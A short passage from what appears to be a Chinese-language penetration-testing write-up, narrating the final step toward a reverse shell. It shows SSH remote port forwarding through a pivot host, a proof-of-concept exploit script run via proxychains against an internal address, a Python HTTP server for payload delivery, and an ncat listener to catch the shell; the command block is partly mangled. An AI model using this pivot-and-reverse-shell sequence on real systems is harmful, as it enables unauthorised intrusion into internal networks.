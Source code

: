 *![](img/1e44066f793ccde02c4d580e2f79ead2.png)*

*图:下载版本*

*我们现在离拿到反向壳只有一步之遥了。我们再次向远处的港口前进。*

```
***ssh -R :80:172.16.100.10:80 -R :1331:172.16.100.10:1331 root@helper -N -f****proxychains4 -q ./poc.sh 172.16.101.21
python3 -m http.server 80
ncat -lvnp 1331***
```
